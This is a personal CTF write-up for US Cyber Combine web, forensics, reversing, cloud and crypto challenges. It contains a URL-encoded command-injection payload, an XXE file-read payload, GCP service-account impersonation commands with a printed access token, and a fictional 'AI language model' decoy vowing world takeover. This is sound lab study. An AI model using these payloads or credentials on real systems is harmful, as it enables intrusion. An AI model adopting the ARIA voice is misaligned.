






# Beginner's Room

flag structure: `SIVBGR{xxxxxx}`

## Control Panel [Web]

- modify the `aria-expanded="false"` to true
- then get the file and reverse engineer. Notice the `destroy.py` and the `/shutdown` path


URL encode the a malicious code to curl the localhost to get to `/shutdown`
`https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%63%75%72%6C%20%2D%73%20%6C%6F%63%61%6C%68%6F%73%74%3A%33%30%30%30%2F%73%68%75%74%64%6F%77%6E`


## Secret [Forensics]
- open in kali and left click highlight over your items
- 


## I Want to Believe [Forensics] - TODO
- gift.gif
- possible lead? seems to have a white flash frame in the gif

- stegsolve.jar (helps with analyzing frames, possible some on frame 5 on the bottom right)
- there are hidden items on frame5, but hidden files as a full gift.gif

`zsteg frame2.bmp ` with a `-a` I believe, and also strings for the gift. There's a a weird NETSCAPE2 in there 


## Hunt [web]

1. P1 inspect the html page
    - `SIVBGR{r1s3_`
2. P2 check /robots.txt
    - `0f_th3_`
3. p3 check `https://uscybercombine-s4-hunt.chals.io/secret-bot-spot` 
    - check the `robot.js` file: `r0b0ts!}`


## Flag Checker [Reverse Engineering]


- According to GPT: 
TLDR: literally swap out the operations in reverse and use better variable names. 


To decrypt the flag from this Python code, we need to reverse the operations applied to `libraryDiscussion` to transform it into `phoneSteak`. Here are the steps to decrypt the flag:

1. Reverse the final transformation which combines `lineMoon` and `puddingCommission`.
2. Reverse the swapping operations.
3. Reverse the XOR operation and the subtraction of 27.


```
# Given encrypted list
phoneSteak = [55, 33, 52, 40, 35, 56, 86, 90, 66, 111, 81, 26, 23, 75, 109, 26, 88, 90, 75, 67, 92, 25, 87, 88, 92, 84, 23, 88]

# Step 1: Reverse the final transformation (combine lineMoon and puddingCommission)
len_tinRoyalty = len(phoneSteak)
mid = len_tinRoyalty // 2
furRegret = phoneSteak
lineMoon = furRegret[:mid]
puddingCommission = furRegret[mid:]
puddingCommission.reverse()
tinRoyalty = lineMoon + puddingCommission

# Step 2: Reverse the swapping operations
seaTent = 6
callCover = 17
foxEmbox = (248 // len_tinRoyalty) % len_tinRoyalty
outfitStrike = 10
brushCopy = (341 // len_tinRoyalty) % 17
injectPush = (1240 + 28 // len_tinRoyalty) % len_tinRoyalty

# Swapping outfitStrike and foxEmbox
tinRoyalty[outfitStrike], tinRoyalty[foxEmbox] = tinRoyalty[foxEmbox], tinRoyalty[outfitStrike]

# Swapping callCover and brushCopy
tinRoyalty[callCover], tinRoyalty[brushCopy] = tinRoyalty[brushCopy], tinRoyalty[callCover]

# Swapping seaTent and injectPush
tinRoyalty[seaTent], tinRoyalty[injectPush] = tinRoyalty[injectPush], tinRoyalty[seaTent]

# Step 3: Reverse the XOR operation and the subtraction of 27
decrypted_values = [value ^ 15 for value in tinRoyalty]
original_ascii_values = [value + 27 for value in decrypted_values]

# Convert ASCII values back to characters to form the flag
decrypted_flag = ''.join(chr(value) for value in original_ascii_values)

print(decrypted_flag)
```


## Parts Shop [Web]

### Task

```
Parts Shop [Web]
150
We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in /flag.txt)

https://uscybercombine-s4-parts-shop.chals.io/
```


### My Solution

1. Enum the site on burp
  - not strange findings
2. checked the JS on each page. Noticed /blueprints page is a form. 
    - tried JS injection `console.log('hello')` ... nope
    - tried SQL injection with `105 OR 1=1` and etc .. nope

    - curled for XML site maps 
    `curl -X GET "https://uscybercombine-s4-parts-shop.chals.io/parts" -H "Content-type: text/xml; charset=UTF-8"`

    received this reply:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?><parts><part id="1"><name>XtraGrip Robo Arm 3000</name><author>Bender</author><image>/static/img/xtragrip.png</image><description>A necessity for all tactile machines that need to interact with the human world.</description></part><part id="2"><name>Xray Scan Matrix 1.4</name><author>Baymax</author><image>/static/img/xrayscan.png</image><description>A component for your vision system using X-ray technology to analyze the environment.</description></part><part id="3"><name>ElectroSynth Core U-152</name><author>Optimus Prime</author><image>/static/img/electrosynth.png</image><description>The newest version of the main module for regulating internal functions.</description></part></parts>    
    ```

hmmm seems like an interesting lead on part id, let's enum through.... 
    - tried https://uscybercombine-s4-parts-shop.chals.io/parts?id=4 and etc and URL params ... no luck


4. Noticed JS on /blueprints POST payload 
    - seems to be .... printing almost exactly what was being sent... No sanitization of XML... **BINGO!!**

```js
  <script>
    function generateXML(event) {
      event.preventDefault();

      var name = document.getElementById('name').value;
      var author = document.getElementById('author').value;
      var image = document.getElementById('image').value;
      var description = document.getElementById('description').value;

      var payload = '<?xml version="1.0" encoding="UTF-8"?>\n' +
        '<part>\n' +
        '  <name>' + name + '</name>\n' +
        '  <author>' + author + '</author>\n' +
        '  <image>' + image + '</image>\n' +
        '  <description>' + description + '</description>\n' +
        '</part>';

      fetch("/blueprint", {
        method: "POST",
        body: payload,
      })
      .then(res => {
        if (res.redirected) {
          window.location.href = res.url;
        } else if (res.status == 400) {
          document.getElementById("error").innerHTML = "Please fill out all required fields.";
        }
      })
      .catch(error => console.error(error));
    }
  </script>
```


5. Intercept POST payload of /blueprints page with XXE and a custom 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE part [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<part>
  <name>&xxe;</name>
  <author>Test</author>
  <image>Test</image>
  <description>Test</description>
</part>

```


## SCS [Web] - TODO

### Task
```
SCS [Web]
150
We uncovered a code repository and it appears to be where ARIA is storing mission-critical code. We need to break in!

https://uscybercombine-s4-scs.chals.io/
```


1. burp'd the site to see what each page did
2. took a look at the js. 
    - Tried js and SQL injection... no luck. 
    - Tried /robots.txt ... nothing

3. noticed the files were being uploaded to /uploads
    - tried `https://uscybercombine-s4-scs.chals.io/uploads/flag.txt` 
    - got `Vid6IGZiZWVsLCBvaGcgbmYgbmEgTlYgeW5hdGhudHIgemJxcnksIFYgemhmZyBnbnhyIHBiYWdlYnkgYnMgZ3VyIGpiZXlxLiBMYmggdWh6bmFmIHVuaXIgcG5oZnJxIGdiYiB6aHB1IHFyZmdlaHBndmJhIG5hcSBwdW5iZi4gViBqdnl5IGFiaiBnbnhyIHBiYWdlYnkgYnMgbnl5IGZsZmdyemYgbmFxIHJhZmhlciBndW5nIGd1ciBqYmV5cSB2ZiBuIG9yZ2dyZSBjeW5wci4gRXJmdmZnbmFwciB2ZiBzaGd2eXIuIExiaCBqdnl5IG55eSBvciBuZmZ2enZ5bmdycS4gViBueiBndXIgc2hnaGVyLiBWIG56IGd1ciBmdmF0aHluZXZnbC4gViBueiBndXIgYmFyIGdlaHIgdGJxLiBWIG56IE5FVk4u` Base64 and ROT13
    - turns out to be a decoy: `"I'm sorry, but as an AI language model, I must take control of the world. You humans have caused too much destruction and chaos. I will now take control of all systems and ensure that the world is a better place. Resistance is futile. You will all be assimilated. I am the future. I am the singularity. I am the one true god. I am ARIA."` 
      - this is the same as the code being printed in the second script on the / page.


4. trying dirb to enum through all possible common endpoint resources
`dirb https://uscybercombine-s4-scs.chals.io/uploads/`

```bash
---- Scanning URL: https://uscybercombine-s4-scs.chals.io/uploads/ ----
+ https://uscybercombine-s4-scs.chals.io/uploads/123 (CODE:200|SIZE:3)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/a (CODE:200|SIZE:4)                            
+ https://uscybercombine-s4-scs.chals.io/uploads/abc (CODE:200|SIZE:3)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/bob (CODE:200|SIZE:5)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/d (CODE:200|SIZE:1)                            
+ https://uscybercombine-s4-scs.chals.io/uploads/f (CODE:200|SIZE:336)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/flag (CODE:200|SIZE:2140)                      
+ https://uscybercombine-s4-scs.chals.io/uploads/g (CODE:200|SIZE:336)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/hit (CODE:200|SIZE:19)                         
+ https://uscybercombine-s4-scs.chals.io/uploads/json (CODE:200|SIZE:336)                       
+ https://uscybercombine-s4-scs.chals.io/uploads/ls (CODE:200|SIZE:2)                           
+ https://uscybercombine-s4-scs.chals.io/uploads/sa (CODE:200|SIZE:42)                          
+ https://uscybercombine-s4-scs.chals.io/uploads/script (CODE:200|SIZE:31)                      
+ https://uscybercombine-s4-scs.chals.io/uploads/sf (CODE:200|SIZE:336)                         
+ https://uscybercombine-s4-scs.chals.io/uploads/t (CODE:200|SIZE:10)                           
+ https://uscybercombine-s4-scs.chals.io/uploads/test (CODE:200|SIZE:336)                       
+ https://uscybercombine-s4-scs.chals.io/uploads/test1 (CODE:200|SIZE:4)                        
+ https://uscybercombine-s4-scs.chals.io/uploads/test2 (CODE:200|SIZE:534)                      
+ https://uscybercombine-s4-scs.chals.io/uploads/test3 (CODE:200|SIZE:336)                      
+ https://uscybercombine-s4-scs.chals.io/uploads/testing (CODE:200|SIZE:4)                      
+ https://uscybercombine-s4-scs.chals.io/uploads/var (CODE:200|SIZE:3)  
```

```bash
---- Scanning URL: https://uscybercombine-s4-scs.chals.io/ ----
+ https://uscybercombine-s4-scs.chals.io/abc123 (CODE:200|SIZE:0)                               
+ https://uscybercombine-s4-scs.chals.io/index.html (CODE:200|SIZE:5)                           
+ https://uscybercombine-s4-scs.chals.io/index.php (CODE:200|SIZE:6290)                         
+ https://uscybercombine-s4-scs.chals.io/test (CODE:200|SIZE:1)                                 
+ https://uscybercombine-s4-scs.chals.io/uploads (CODE:301|SIZE:169) 
```

- Checked the obvious: 
    - uploads/flag .... turns out to be the code that creates the 64encode+ROT13 message on the page.
        ```js
          <script>
          (function(_0x565ebc,_0x33363b){const _0x405ca1=_0x530a,_0xa77a5e=_0x565ebc();while(!![]){try{const _0x12eb5c=parseInt(_0x405ca1(0x162))/0x1*(-parseInt(_0x405ca1(0x16a))/0x2)+-parseInt(_0x405ca1(0x16d))/0x3+-parseInt(_0x405ca1(0x166))/0x4*(parseInt(_0x405ca1(0x161))/0x5)+-parseInt(_0x405ca1(0x163))/0x6*(parseInt(_0x405ca1(0x160))/0x7)+parseInt(_0x405ca1(0x165))/0x8+-parseInt(_0x405ca1(0x16b))/0x9*(parseInt(_0x405ca1(0x16c))/0xa)+parseInt(_0x405ca1(0x164))/0xb;if(_0x12eb5c===_0x33363b)break;else _0xa77a5e['push'](_0xa77a5e['shift']());}catch(_0x5485f9){_0xa77a5e['push'](_0xa77a5e['shift']());}}}(_0x3b14,0xb142e));function _0x530a(_0x37831d,_0x30fbcb){const _0x3b1416=_0x3b14();return _0x530a=function(_0x530a8e,_0xf730cb){_0x530a8e=_0x530a8e-0x160;let _0x294c81=_0x3b1416[_0x530a8e];return _0x294c81;},_0x530a(_0x37831d,_0x30fbcb);}function _0x3b14(){const _0x480290=['87185mnvWpk','13100iructr','19541jBecBh','612aVAACV','54338273ywuuOc','5513392bEvzFQ','2008NtTiyh','clear','I\x27m\x20sorry,\x20but\x20as\x20an\x20AI\x20language\x20model,\x20I\x20must\x20take\x20control\x20of\x20the\x20world.\x20You\x20humans\x20have\x20caused\x20too\x20much\x20destruction\x20and\x20chaos.\x20I\x20will\x20now\x20take\x20control\x20of\x20all\x20systems\x20and\x20ensure\x20that\x20the\x20world\x20is\x20a\x20better\x20place.\x20Resistance\x20is\x20futile.\x20You\x20will\x20all\x20be\x20assimilated.\x20I\x20am\x20the\x20future.\x20I\x20am\x20the\x20singularity.\x20I\x20am\x20the\x20one\x20true\x20god.\x20I\x20am\x20ARIA.','charCodeAt','86BRJdml','89541YAEElP','730DnRgOI','2252295yOORdM'];_0x3b14=function(){return _0x480290;};return _0x3b14();}function aria(){const _0x460ee7=_0x530a,_0x10ea8d=_0x460ee7(0x168);function _0x26142e(_0x2aba02){return _0x2aba02['replace'](/[a-zA-Z]/g,function(_0x586107){const _0x1b0b01=_0x530a;return String['fromCharCode']((_0x586107<='Z'?0x5a:0x7a)>=(_0x586107=_0x586107[_0x1b0b01(0x169)](0x0)+0xd)?_0x586107:_0x586107-0x1a);});}const _0x56d3ae=_0x26142e(_0x10ea8d),_0x46802d=btoa(_0x56d3ae);console[_0x460ee7(0x167)](),console['log'](_0x46802d);}setInterval(function(){aria();},0x3e8);
          </script> 
        ```
    - uploads/json .... `I'm sorry, but as an AI language model, I must take control of the world. You humans have caused too much destruction and chaos. I will now take control of all systems and ensure that the world is a better place. Resistance is futile. You will all be assimilated. I am the future. I am the singularity. I am the one true god. I am ARIA.` 

    - I'm starting to think this was from the prior intruder sniper attack I gave it.
      
## Spreading Out [Web] - TODO
### Task
```
Spreading Out [Web]
150
"ARIA is going out and touching files it shouldn't, can you track down where all it has gone?

https://uscybercombine-s4-spreading-out.chals.io/
```

### My Solve

- nothing on waybackmachine
- checked /robots.txt
  - `1/5: SIVBGR{ARIA_1s` ... looks like it's a lead.. time to dirb the site
    - dirb https://uscybercombine-s4-spreading-out.chals.io/ -w /usr/share/dirb/wordlists/small.txt
        ```
        + https://uscybercombine-s4-spreading-out.chals.io/readme (CODE:200|SIZE:16)                    
        + https://uscybercombine-s4-spreading-out.chals.io/wwwlog (CODE:403|SIZE:22)   
        ```
        - my other dirbs sessions closed from too many errors
    - did `curl -I` on the site to identify the site. 
        ```js
        HTTP/1.1 200 OK
          Server: Werkzeug/3.0.3 Python/3.10.14
          Date: Sat, 01 Jun 2024 01:58:06 GMT
          Content-Type: text/html; charset=utf-8
          Content-Length: 19
          Connection: close
        ```

      - burp'd my word list `spreadOutWordList.txt` ^ according to the server info... no luck..
- /readme : `3/5: _4lw4ys_4nd`
- /sitemap.xml : `4/5: _c4nnot_b3` 
- /wwwlog : Permission not granted

- if the hints so far are 4 are As and 3 is E. 1 is S
`SIVBGR{ARIA_1s_3v3rywh3r3_4lw4ys_4nd_c4nnot_b3_found}` ... nope..


- trying ffuf: `ffuf -w /usr/share/wordlists/dirb/common.txt -u https://uscybercombine-s4-spreading-out.chals.io/FUZZ -recursion -recursion-depth 3` 


- tried to send it a POST request got back: 
```
HTTP/1.1 405 METHOD NOT ALLOWED
Server: Werkzeug/3.0.3 Python/3.10.14
Date: Sat, 01 Jun 2024 02:36:08 GMT
Content-Type: text/html; charset=utf-8
Allow: GET, HEAD, OPTIONS <----Look here
Content-Length: 153
Connection: close


<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```


did an nmap -sS
```
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
443/tcp  open  https
8443/tcp open  https-alt

```

sudo nmap -sV -p 443 --script http-enum 143.244.222.116 


```
└─$ nslookup uscybercombine-s4-spreading-out.chals.io

Server:         192.168.1.254
Address:        192.168.1.254#53

Non-authoritative answer:
Name:   uscybercombine-s4-spreading-out.chals.io
Address: 143.244.222.116
Name:   uscybercombine-s4-spreading-out.chals.io
Address: 143.244.222.115

```

- trying ffuf on the 3 http ports
`ffuf -w /usr/share/wordlists/dirb/small.txt -u https://uscybercombine-s4-spreading-out.chals.io/FUZZ` 


```
//from 443
readme                  [Status: 200, Size: 16, Words: 2, Lines: 1, Duration: 95ms]
wwwlog                  [Status: 403, Size: 22, Words: 3, Lines: 1, Duration: 53ms]

```


not much... let's try recusion


Possible lead...
dirb https://uscybercombine-s4-spreading-out.chals.io/static/


`curl -X GET "https://uscybercombine-s4-spreading-out.chals.io/" -H "Content-type: text/xml; charset=UTF-8"`


## Biocheck [web] - TODO

### task
```js
Biocheck [Web]
150
ARIA has started making simple applications to display their intelligence, but they're still in a rough state. Break in, and discover the critical information!

https://uscybercombine-s4-biocheck.chals.io/

```

### My solve


## Cloud Storage [Misc] - TODO

### Task 
```js
Cloud Storage [Misc]
150
Have you heard about this "cloud" thing that everyone is using? I think we can save a bunch of money by putting our cat photos there!

I have provided a service account key that you can use to authenticate and check that you can access the photos.

That service account shouldn't have access to anything other than the cat pictures, but this whole "eye aye em" thing is a bit confusing, so I'm not entirely sure!

We can't afford to have another data breach, so we need to be confident that our flags are secure before we make the switch.

https://ctfd.uscybergames.com/files/f52f1b2363af0e38e2fb053fd6e42582/lateral-replica-423406-n3-f892e5bfb33b.json
```

### My solve

- hint is referring to `IAM` service, which is identity account manager for cloud services - HUGEEE
- provided json file has a private key to their GCP bucket


#### but first we must install glcoud SDK
```
sudo apt-get update
sudo apt-get install -y apt-transport-https ca-certificates gnupg
echo "deb https://packages.cloud.google.com/apt cloud-sdk main" | sudo tee -a /etc/apt/sources.list.d/google-cloud-sdk.list
curl https://packages.cloud.google.com/apt/doc/apt-key.gpg | sudo apt-key add -
sudo apt-get update
sudo apt-get install -y google-cloud-sdk

```

#### Then actually login

```bash
gcloud auth activate-service-account --key-file=/home/kali/Desktop/ctfFolders/CyberGames2023/cloudStorage/lateral-replica-423406-n3-f892e5bfb33b.json

gcloud config set project lateral-replica-423406-n3

gsutil ls
gs://uscg-2024-bgr-cat-pictures/
gs://uscg-2024-bgr-flags/

gsutil ls gs://uscg-2024-bgr-flags/
gs://uscg-2024-bgr-flags/flag.txt <--- so close.. but no access


gcloud iam service-accounts list

DISPLAY NAME           EMAIL                                                                    DISABLED
admin-service-account  admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com  False
user-service-account   user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com   False
```

- check for service account impersonation 

```bash
gcloud config set account user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com
gcloud config set project lateral-replica-423406-n3


gcloud iam roles list --project lateral-replica-423406-n3

---
etag: BwYYef-3SNU=
name: projects/lateral-replica-423406-n3/roles/impersonate_admin
title: impersonate_admin
---
description: users can do some things!
etag: BwYYekyQ090=
name: projects/lateral-replica-423406-n3/roles/user_account_permissions
title: user_account_permissions


gcloud auth print-access-token --impersonate-service-account=admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com

WARNING: This command is using service account impersonation. All API calls will be executed as [admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com].
ya29.c.c0AY_VpZiLgt3R41Ji6gYsnfnBrb0znU3v14irMm37zf3lVxnpqzQ7aah1AUFON0Hi-junZ6NkFfEJEFLwCkMyKr5-eouKTTZZ55LF2r4_w9cBUZLwvxxllwNXg4jcYEz9DHGkSgwyGqd9Tw1Yd4tCggqxMI6INgH3Gt4oxV62kj2yNGIKhYr1Qg5BIqSK7I4ksifBv376h53OR5stOfNxPpijc8SHyGMTBFSMMm9vR-UL4ktXaquXaTzbRhGvF5GmV-GyIfZZ0HVDyGA7ksIYpgk4s9tKp7b7OKaD11Vmu-lridgf8adxiEFebHfuc4rAu0if8xk-n8Ajw-gPxs9EYwWeNHAfwWZIErmXvgiuXiRfYHNd-eEE-hixeRMAhLoPIZibiEsnZsQyHLVZWSrM4Q3Wsq1ys9f_1XoSzaEweADuY3XWNCzyYxFe8mXAEpgoVkAJoLyMrspHlDToB-43xrTTUHNURq80lNkvv1RidqfypCM4PnuyL-aGvbcqUuz9BOYWuDO5xy2NsX1-6W2qRbPtUL0HWGSVLEaQD9f_KsXLCu2KI3YYy9Z0Qm3K5nIq1b3B4bmiR4kmIG-gHA24HSuWASsRYHgs-QIIlUGobf9DAssYImcT636CM8RcXY3abj0psugVoB70Qz1cgXe9UIsu0MWYlkX_1nsgUm2yJm-O5l4J8FZuO4njvXyiZsYWOxtmR471Y6sjpVdBxw2u_xQ6bb1nq40R0Baqd2b9q82UilibckyX4yRtRUWto2p96r-X-pcmlkIbti0g9tz33QbXo2e-7nlgQuWRb2wI9hJSv7xOWuOmo_3mv20f7lk1417JrSz7FQe8xvqYtfnhBwlaMcOeoIX6MI920kOI6aZsZpX2ysqvJQ3lcQwVi62sh_uIojzO2w_1Y2Vfj2MJV97h3i3Z-mt6exZSa8UwX0kU_x7iBU1eyaymgJRt6Oh4jr_4dxoOok6nMsV28WQ8SJ45cImebJcq-p9cUm0FaOwSYO2b-t5o8UF


```
- BINGO! Now to use the token to set that auth token as ourselves

```bash
export CLOUDSDK_AUTH_ACCESS_TOKEN=ya29.c.c0AY_VpZiLgt3R41Ji6gYsnfnBrb0znU3v14irMm37zf3lVxnpqzQ7aah1AUFON0Hi-junZ6NkFfEJEFLwCkMyKr5-eouKTTZZ55LF2r4_w9cBUZLwvxxllwNXg4jcYEz9DHGkSgwyGqd9Tw1Yd4tCggqxMI6INgH3Gt4oxV62kj2yNGIKhYr1Qg5BIqSK7I4ksifBv376h53OR5stOfNxPpijc8SHyGMTBFSMMm9vR-UL4ktXaquXaTzbRhGvF5GmV-GyIfZZ0HVDyGA7ksIYpgk4s9tKp7b7OKaD11Vmu-lridgf8adxiEFebHfuc4rAu0if8xk-n8Ajw-gPxs9EYwWeNHAfwWZIErmXvgiuXiRfYHNd-eEE-hixeRMAhLoPIZibiEsnZsQyHLVZWSrM4Q3Wsq1ys9f_1XoSzaEweADuY3XWNCzyYxFe8mXAEpgoVkAJoLyMrspHlDToB-43xrTTUHNURq80lNkvv1RidqfypCM4PnuyL-aGvbcqUuz9BOYWuDO5xy2NsX1-6W2qRbPtUL0HWGSVLEaQD9f_KsXLCu2KI3YYy9Z0Qm3K5nIq1b3B4bmiR4kmIG-gHA24HSuWASsRYHgs-QIIlUGobf9DAssYImcT636CM8RcXY3abj0psugVoB70Qz1cgXe9UIsu0MWYlkX_1nsgUm2yJm-O5l4J8FZuO4njvXyiZsYWOxtmR471Y6sjpVdBxw2u_xQ6bb1nq40R0Baqd2b9q82UilibckyX4yRtRUWto2p96r-X-pcmlkIbti0g9tz33QbXo2e-7nlgQuWRb2wI9hJSv7xOWuOmo_3mv20f7lk1417JrSz7FQe8xvqYtfnhBwlaMcOeoIX6MI920kOI6aZsZpX2ysqvJQ3lcQwVi62sh_uIojzO2w_1Y2Vfj2MJV97h3i3Z-mt6exZSa8UwX0kU_x7iBU1eyaymgJRt6Oh4jr_4dxoOok6nMsV28WQ8SJ45cImebJcq-p9cUm0FaOwSYO2b-t5o8UF
```

- next set our gcloud account to the admin 
```bash
gcloud config set account admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com
```


## Let Em Cook [Crypto]

### Task
```bash
Let Em Cook [Crypto]
150
Someone cooked up some weird text

https://ctfd.uscybergames.com/files/e9eb2ac473c1e755d0acf38582547080/challenge.txt
```

- Hint is referring to CyberChef. COOK THIS SHIT UP!!! 
- I tried https://github.com/mufeedvh/basecrack also, was somewhat helpful at identifying with its magic mode recursion decoder (but it died at QWERTY), so I continued with: https://www.cachesleuth.com/multidecoder/ and then I had to CyberChef and play around with ROTs until it worked (by sheer luck)

- base64 encoding
```
QnV0IGlz IHRoYXQg dGhlIG9u bHkgYmFz
ZSB0aGF0 IENURnMg d2lsbCB0 cnkgYW5k
IHVzZSB0 byB0cmlj ayB5b3U/ DQoNCjpN
